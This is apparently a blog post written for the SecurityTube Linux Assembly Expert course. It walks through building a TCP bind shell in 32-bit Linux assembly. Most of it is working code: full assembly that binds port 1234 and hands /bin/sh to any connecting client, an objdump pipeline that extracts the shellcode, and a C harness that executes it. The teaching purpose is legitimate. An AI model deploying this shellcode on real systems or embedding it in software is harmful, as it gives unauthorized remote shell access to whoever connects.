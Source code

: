 ```yaml
---
title: "SLAE Assignment 1"
date: 2018-02-02
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

Assignment 1 of the SLAE requires students to create a TCP bind shell in assembly which binds to a port and executes a shell on an incoming connection. Additionally, the port number should be configurable upon execution.

If I break down the functions required for a TCP bind shell in a basic C program, the functions used would be as follows:

1. socketCall
2. bind
3. listen
4. dup2 (x3)
5. execve

I used an online resource to determine the registers and function parameters of each system call above. Each function is separated in the below assembly and executed one at a time until the final execve call is executed.

The networking socket functions can be found with cat /usr/include/linux/net.h which will tell us the call identifier used in the socketcall function since they are different for each operation.

Putting everything together I got the assembly code below.

```assembly
;Author: Will Summerhill
;Create shell_bind_tcp shellcode
;bind to a port - accept as input
;exec shell on incoming connections

;cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep socket - socketcall = 102 (hex 0x66)
;cat /usr/include/i386-linux-gnu/bits/socket_type.h |grep 'SOCK_STREAM'
;Function socket(domain, type, protocol)
;    (AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
;    (EAX, EBX, ECX)

global _start

section .text
_start:

; SocketCall function:
  xor  eax, eax    ;AF_INET = 2
  mov al, 0x02

  xor ebx, ebx    ;EBX: SOCK_STREAM = 1
  mov bl, 0x01

  xor edx, edx    ;EDX: IPPROTO_IP = 0
   
  push edx                ; TCP = 0
  push ebx                ; SOCK_STREAM = 1 
  push eax                ; AF_INET = 2 

  xor ecx, ecx
  mov ecx, esp    ;save stack into ECX

  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  int 0x80    ;execute

  mov edx, eax    ;EDX = sockfd output

; Bind function:
  ;int bind(int sockfd, const struct sockaddr *addr(), socklen_t addrlen)
  
  ;Push *addr() first onto stack
  ;*addr(addr family = AF_INET [2], port [1234], IP addr = INADDR_ANY [0])
  xor ebx, ebx
  push ebx    ;INADDR_ANY = 0
  push word 0xd204  ;PORT: bind port = 1234 in reverse order (0x04d2)  
  push word 2    ;AF_INET = 2
  mov ecx, esp    ;save stack into ECX
  
  ;Now push whole bind() function onto stack in reverse order
  push 0x10    ;addrlen size
  push ecx    ;*addr function
  push edx    ;sockfd = socket from Socketcall function above

  ;call syscall to execute
  xor eax, eax
  mov al, 0x66    ;socketcall syscall = 0x66 hex (102 decimal)
  mov bl, 0x02    ;socketcall type = sys_bind 2
  
  mov ecx, esp    ;move to ECX for execution
  int 0x80    ;execute BIND

; Listen function:
  ;int listen(int sockfd = SOCK_STREAM, int backlog = 1)
  ;Push in reverse order to stack
  push 0x01  ;backlog
  push edx  ;sockfd = Socket from above
  
  xor eax, eax
  xor ebx, ebx
  mov al, 0x66  ;syscall = 0x66 hex (102 decimal)
  mov bl, 0x04  ;socketcall type = SYS_LISTEN
  
  mov ecx, esp
  int 0x80  ;execute syscall

; Accept function:
  ;accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
  ;  sockfd = listening socket created above
  ;  *addr = pointer to a sockaddr structure = NULL
  ;  addrlen = size of *addr = NULL
  
  xor eax, eax  ;clear registers
  xor ebx, ebx

  ; Push in reverse order
  push eax  ;addrlen = NULL
  push eax  ;*addr = NULL
  push edx  ;sockfd = created socket
  mov ecx, esp  ;move function from stack into ECX

  mov al, 0x66  ;syscall to execute
  mov bl, 0x05  ;socketcall type = SYS_ACCEPT 5

  int 0x80  ;execute LISTEN
  mov edx, eax  ;save returned sockfd into old socket

; Dup2 functions:
  ;dup2(int oldfd, newfd)  [syscall 63 (0x3f)]
  ;  EAX = 0x3f (63 decimal)
  ;  EBX = oldfd
  ;  ECX = newfd
  xor eax, eax
  mov al, 0x3f  ;dup2 syscall number (3f hex, 63 decimal)
  
  ;STDIN = 0
  mov ebx, edx  ;oldfd into EBX
  xor ecx, ecx  ;STDIN = 0
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDIN)

  ;STDOUT = 1
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx  ;oldfd into EBX
  inc ecx    ;STDOUT = 1
  int 0x80  ;execute dup2(oldfd = ebx,  newfd = STDOUT)

  ;STDERR = 2
  xor eax, eax
  mov al, 0x3f  ;dup2 function
  mov ebx, edx
  inc ecx    ;STDERR = 2
  int 0x80  ;execute dup2(oldfd = ebx, newfd = STDERR)

; Execve function to execute //bin/sh
  ;execve(filename, argv[], envp[])
  ;  EBX = //bin/sh 0x0
  ;  ECX = address of //bin/sh
  ;  EDX = 0x000000
  
  ;Push contents in reverse order
  xor eax, eax
  push eax

  ; PUSH //bin/sh (8 bytes) in reverse order
  push 0x68732f2f    ;n/sh
  push 0x6e69622f    ;//bi
  mov ebx, esp    ;move into EBX 

  push eax  ;add 0 to stack
  push ebx  ;push address of //bin/sh to stack
  mov ecx, esp
  push eax  ;null terminator after //bin/sh
  mov edx, esp

  mov al, 0xb  ;execve syscall = 11
  int 0x80  ;execute EXECVE to start bind shell
```

It is possible to configure the bind port number as needed by modifying the shellcode in ASM at the line with “;PORT: bind port = 1234” by adding a different port number in big-endian format. 

I’ll use objdump to pull the shellcode from the program and copy it over to C.  
```
objdump -d ./A1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

Now I’ll copy the shellcode into C so we can execute it. 

```cpp
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length:  %d\n", strlen(code));
  int (*ret)() = (int(*)())code;
  ret();
}
```

Once we compile it the bind shell should listen for incoming connections. After executing the program and connecting using netcat, we get the bind shell on localhost.  

![image](https://user-images.githubusercontent.com/35749735/192896487-de82cef1-22eb-49d8-9fcf-c509dbfcdf12.png)

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
